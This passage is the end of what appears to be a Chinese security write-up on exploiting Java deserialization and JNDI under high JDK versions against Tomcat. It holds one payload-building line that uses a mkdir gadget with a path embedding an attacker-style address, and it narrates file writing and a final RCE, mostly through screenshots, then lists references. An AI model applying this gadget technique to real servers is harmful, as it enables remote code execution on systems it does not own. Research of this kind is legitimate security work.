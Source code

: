 
```plain
Serializable payload8 = XyzFileMkdir1.getObject("/opt/tomcat/aaa/bbb/http:/192.168.176.1:8888/whatever");
```

成功创建这样的目录：

[![](assets/1701827139-b5b84f8dfbc1be9d1764161cd1890014.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154136-8f350e16-8dc1-1.png)

然后实现文件写入：

[![](assets/1701827139-066538bbc48fe15fadd9a05763aa05ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129101856-a613a7c2-8e5d-1.png)

[![](assets/1701827139-43983525f443cfc5522ebd358d9f4c26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154841-8c857218-8dc2-1.png)

[![](assets/1701827139-1f695611fe91d97066b622ddeb59f226.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154844-8e82f162-8dc2-1.png)

至此，终于实现了RCE。

## References

-   [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
-   [探索JNDI攻击](https://github.com/iSafeBlue/presentation-slides/blob/main/BCS2022-%E6%8E%A2%E7%B4%A2JNDI%E6%94%BB%E5%87%BB.pdf)
